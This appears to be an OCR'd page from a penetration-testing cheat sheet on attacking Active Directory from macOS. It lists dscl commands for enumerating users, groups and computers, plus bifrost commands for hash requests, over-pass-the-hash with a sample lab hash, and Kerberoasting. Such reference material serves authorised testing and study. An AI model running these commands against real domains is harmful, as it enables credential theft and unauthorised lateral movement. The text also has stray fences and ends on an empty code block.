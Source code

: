 ```
- **CanSSH** - entity allowed to SSH to host
- **CanVNC** - entity allowed to VNC to host
- **CanAE** - entity allowed to execute AppleEvent scripts on host

```bash
#User enumeration
dscl . ls /Users
dscl . read /Users/[username]
dscl "/Active Directory/TEST/All Domains" ls /Users
dscl "/Active Directory/TEST/All Domains" read /Users/[username]
dscacheutil -q user

#Computer enumeration
dscl "/Active Directory/TEST/All Domains" ls /Computers
dscl "/Active Directory/TEST/All Domains" read "/Computers/[compname]$"

#Group enumeration
dscl . ls /Groups
dscl . read "/Groups/[groupname]"
dscl "/Active Directory/TEST/All Domains" ls /Groups
dscl "/Active Directory/TEST/All Domains" read "/Groups/[groupname]"

#Domain Information
dsconfigad -show
```
```
More info in [[https://its-a-feature.github.io/posts/2018/01/Active-Directory-Discovery-with-a-Mac/|https://its-a-feature.github.io/posts/2018/01/Active-Directory-Discovery-with-a-Mac/]]

### Computer$ password

Get passwords using:

```bash
bifrost --action askhash --username [name] --password [password] --domain [domain]
```
```
It's possible to access the **`Computer$`** password inside the System keychain.

### Over-Pass-The-Hash

Get a TGT for an specific user and service:

```bash
bifrost --action asktgt --username [user] --domain [domain.com] \
       --hash [hash] --enctype [enctype] --keytab [/path/to/keytab]
```
```
Once the TGT is gathered, it's possible to inject it in the current session with:

```bash
bifrost --action asktgt --username test_lab_admin \
       --hash CF59D3256B62EE655F6430B0F80701EE05A0885B8B52E9C2480154AFA62E78 \
       --enctype aes256 --domain test.lab.local
```
```
### Kerberoasting

```bash
bifrost --action asktgs --spn [service] --domain [domain.com] \
       --username [user] --hash [hash] --enctype [enctype]
```
```
With obtained service tickets it's possible to try to access shares in other computers:

```bash
```